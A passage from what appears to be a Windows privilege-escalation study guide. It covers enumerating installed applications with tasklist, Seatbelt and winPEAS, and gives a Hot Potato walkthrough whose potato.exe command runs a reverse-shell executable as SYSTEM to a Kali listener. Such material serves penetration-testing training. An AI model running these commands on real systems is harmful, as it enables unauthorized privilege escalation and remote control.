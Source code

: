 ```
> cscript CreateShortcut.vbs
```

5. Start a listener on Kali, then log in as the admin user to trigger the exploit.

## <mark style="color:red;">Installed Applications</mark>

Most privilege escalations relating to installed applications are based on misconfigurations we have already covered. Still, some privilege escalations results from things like buffer overflows, so knowing how to identify installed applications and known vulnerabilities is still important.

Manually enumerate all running programs:

```
> tasklist /v
```

We can also use Seatbelt to search for nonstandard processes:

```
> .\seatbelt.exe NonstandardProcesses
```

winPEAS also has this ability (note the misspelling):

```
> .\winPEASany.exe quiet procesinfo
```

Once you find an interesting process, try to identify its version. You can try running the executable with /? or -h, as well as checking config or text files in the Program Files directory. Use Exploit-DB to search for a corresponding exploit. Some exploits contain instructions, while others are code that you will need to compile and run.

## <mark style="color:red;">Hot Potato</mark>

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

{% hint style="info" %}
These steps are for Windows 7
{% endhint %}

1. Copy the potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit:

```
.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

4. Wait for a Windows Defender update, or trigger one manually.

## <mark style="color:red;">Service Accounts (Rotten Potato / Juicy Potato)</mark>
